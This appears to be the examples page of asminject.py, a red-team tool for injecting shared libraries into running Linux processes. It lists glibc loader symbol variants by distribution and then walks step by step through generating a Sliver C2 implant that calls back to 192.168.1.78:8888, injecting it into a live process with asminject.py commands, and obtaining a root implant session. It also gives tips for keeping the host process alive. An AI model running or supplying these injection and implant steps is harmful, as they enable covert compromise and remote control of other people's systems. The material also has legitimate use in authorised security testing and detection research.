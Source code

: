 # asminject.py examples - Shared library injection

* [Background](#background)
* [Important](#important)
* [dlopen with multithreading](#dlopen-with-multithreading)
* [_dl_open with multithreading](#_dl_open-with-multithreading)
* [dlopen without multithreading](#dlopen-without-multithreading)
* [_dl_open without multithreading](#_dl_open-without-multithreading)

## Background

Injecting a shared library (`.so` file) into an existing process was the entire purpose of the [dlinject.py](https://github.com/DavidBuchanan314/dlinject) tool that `asminject.py` was originally derived from. `asminject.py` includes several payloads to achieve the same type of goal, depending on the specifics of the Linux distribution where you're running it.

When `asminject.py` was originally developed, `dlinject.py` was hardcoded to look for a function named `_dl_open` in the `ld` library and call it. However, at least in 2021, not every Linux distribution included a version of the `ld` library that exported `_dl_open` or an equivalent function. Here are the permutations I've discovered so far while testing `asminject.py`:

* Debian and derivatives
  * Debian
    * Debian 8.11, x86-64
	  * `libc` version is Debian GLIBC 2.19-18+deb8u10
      * `ld` library does not export `_dl_open`
	  * `libc` library exports `__libc_dlopen_mode`
	  * `libdl` library exports `dlopen`
    * Debian 10.6, ARM32 (Raspberry Pi)
	  * `libc` version is Debian GLIBC 2.28-10+rpi1
      * `ld` library does not export `_dl_open`
	  * `libc` library exports `__libc_dlopen_mode`
	  * `libdl` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
	* Debian 11.0 x86-64
	  * `libc` version is Debian GLIBC 2.31-13
      * `ld` library does not export `_dl_open`
	  * `libc` library exports `__libc_dlopen_mode`
	  * `libdl` library exports `dlopen`
  * Kali
    * kali-rolling (updated in June 2022), x86-64
      * `libc` version is Debian GLIBC 2.33-6
      * `ld` library does not export `_dl_open`
      * `libc` library exports `__libc_dlopen_mode`
      * `libdl` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
* OpenSUSE
  * OpenSUSE Tumbleweed 20220719, x86 (32-bit) and OpenSUSE Tumbleweed 20220731, x86-64
    * `libc` version is GNU libc 2.35
    * `ld` library exports `_dl_open`, and the signature should be `void * _dl_open(const char *file, int mode, const void *caller_dlopen, Lmid_t nsid, int argc, char *argv[], char *env[]);`
	* `libc` library exports `dlopen` with signature `void *dlopen([const] char *filename, int flags);`
	* `libdl` library does not export `dlopen`

Some (older?) versions of `ld` allegedly use(d?) a simpler signature for `_dl_open`: `void * _dl_open(const char *file, int mode, const void *caller_dlopen);`, but I haven't run across this yet in order to test it.

In most cases, you should be able to use the first example below, because it handles both the `libdl` and `libc` variations on calling the `dlopen` function, and it's multithreaded, so the target process should continue as usual after the code is injected. The other options are provided for more constrained scenarios, e.g. if the target process doesn't have `libpthread` available, or if it's more advantageous to call `_dl_open` to avoid a particular detection mechanism.

## Important

Regardless of the payload and shared library you select, in virtually all cases you should avoid causing the shared library to issue a process-level `exit`, as this will cause the target process to exit as well. In my testing, common C2 agents for Linux will perform a system-level exit instead of a thread-level exit. I assume this is because unlike Windows, where calling a thread-level `exit` is more or less the same across versions, locating and calling the `pthread_exit` function on an arbitrary Linux distribution and version is more complicated, and so most(?) C2 authors don't implement it.

In the case of [Sliver](https://github.com/BishopFox/sliver) and [Metasploit](https://github.com/rapid7/metasploit-framework), what this means is that instead of e.g. calling `kill` in a Sliver session or `exit` in a Meterpreter session, you should just send the session to the background unless you absolutely want the target process to exit.

## dlopen with multithreading

The `dlinject-threaded.s` payload is the preferred option for injecting shared libraries into an existing process using `asminject.py`. It is the most straightfoward, best supported on various distributions (at least in my testing), and the target process will continue executing normally after injection.

This payload requires one variable: `librarypath`, which should point to the library you want to inject.

This payload requires relative offsets for the `ld` shared library used by the target process.

Locate or build a `.so` file to open. The example below uses a [Sliver](https://github.com/BishopFox/sliver) C2 listener and implant.

Note: in this example, the `--arch=386` option for the implant generation is specified because the corresponding `asminject.py` example below is using the `x86` architecture. For `x86-64`, you'd want to use `--arch=amd64`. For `arm32`, you could try using `--arch=arm`, but as of this writing Sliver doesn't seem to handle it well. I was going to include an example that used the `linux/armle/meterpreter/reverse_tcp` payload from Metasploit instead, but it seems that `elf-so` output for that payload isn't working at present.

```
# ./sliver-server     

    ███████╗██╗     ██╗██╗   ██╗███████╗██████╗
    ██╔════╝██║     ██║██║   ██║██╔════╝██╔══██╗
    ███████╗██║     ██║██║   ██║█████╗  ██████╔╝
    ╚════██║██║     ██║╚██╗ ██╔╝██╔══╝  ██╔══██╗
    ███████║███████╗██║ ╚████╔╝ ███████╗██║  ██║
    ╚══════╝╚══════╝╚═╝  ╚═══╝  ╚══════╝╚═╝  ╚═╝

All hackers gain infect
[*] Server v1.5.17 - 814670dc6d023f290fefd3e0fd7e0c420f9bb2e8
[*] Welcome to the sliver shell, please type 'help' for options

...omitted for brevity...

[server] sliver > mtls

[*] Starting mTLS listener ...

[server] sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 2    mtls   tcp        8888 

[server] sliver > generate --mtls=192.168.1.78:8888 --os=linux --arch=386 --format=shared --save=/home/user --skip-symbols

[*] Generating new linux/386 implant binary
[!] Symbol obfuscation is disabled
[*] Build completed in 00:01:48
[*] Implant saved to /home/user/MAGENTA_NEEDLE.so
```

Inject the DLL into the target process:

```
# python3 ./asminject.py 30320 dlinject-threaded.s \
   --relative-offsets-from-binaries \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```

Back in the Sliver console, you should see something like this:

```
[*] Session 5abe2db4 MAGENTA_NEEDLE - 192.168.1.79:5976 (localhost.localdomain) - linux/386 - Fri, 29 Jul 2022 15:35:21 PDT

[server] sliver > sessions -i 5abe2db4

[*] Active session MAGENTA_NEEDLE (5abe2db4)

[server] sliver (MAGENTA_NEEDLE) > info

        Session ID: 5abe2db4-cf75-46aa-bb41-7ad288028f0d
              Name: MAGENTA_NEEDLE
          Hostname: localhost.localdomain
              UUID: 0f444f35-de17-41a3-bc44-c30405c83d04
          Username: root
               UID: 0
               GID: 0
               PID: 30320
                OS: linux
           Version: Linux localhost.localdomain 5.18.11-1-pae
              Arch: 386
         Active C2: mtls://192.168.1.78:8888
    Remote Address: 192.168.1.79:5976
         Proxy URL: 
Reconnect Interval: 1m0s
```

## _dl_open with multithreading

The `dlinject-ld-threaded.s` payload mimics the original `dlinject.py`, calling the `_dl_open` function that some versions of the `ld` library export (e.g. on OpenSUSE), and is multithreaded so that the target process continues executing normally after injection. `dlinject-ld-threaded.s` is currently only provided for the x86 and x86-64 architectures, because I haven't found an ARM32 Linux distribution that includes a version of `ld` that exports the `_dl_open` symbol yet.

```
# python3 ./asminject.py 30320 dlinject-ld-threaded.s \
   --relative-offsets-from-binaries \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```
## dlopen without multithreading

The `dlinject.s` payload is identical to the `dlinject-threaded.s` payload, except that it does not spawn a separate thread. This has the downside of not allowing the target process to keep executing normally after injection, but means that `libpthread` is not required. Just swap out the payload name, e.g.:

```
# python3 ./asminject.py 30320 dlinject.s \
   --relative-offsets-from-binaries \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```

## _dl_open without multithreading

The `dlinject-ld.s` payload is identical to `dlinject-ld-threaded.s`, except that it does not call `_dl_open` in a separate thread. Like `dlinject.s`, this means that the `libpthread` library functions are not required, but it also means that the target process will stop doing its normal work in favour of whatever the injected code starts doing. `dlinject-ld.s` is currently only provided for the x86 and x86-64 architectures, because I haven't found an ARM32 Linux distribution that includes a version of `ld` that exports the `_dl_open` symbol yet.

```
# python3 ./asminject.py 30320 dlinject-ld.s \
   --relative-offsets-from-binaries \
   --var librarypath "/home/user/MAGENTA_NEEDLE.so"
```
